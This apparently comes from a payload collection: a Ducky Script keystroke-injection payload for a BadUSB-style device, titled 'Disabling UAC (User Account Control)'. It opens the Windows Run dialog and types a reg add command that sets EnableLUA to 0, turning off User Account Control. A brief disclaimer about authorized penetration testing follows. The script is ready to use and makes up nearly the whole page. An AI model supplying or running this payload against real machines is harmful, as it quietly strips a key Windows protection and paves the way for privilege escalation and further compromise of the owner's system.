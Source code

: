 # Disabling UAC (User Account Control)

Disables User Account Control (UAC) by modifying the Windows registry.

```
DELAY 500
GUI r
DELAY 200
STRING reg add "HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System" /v EnableLUA /t REG_DWORD /d 0 /f
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.
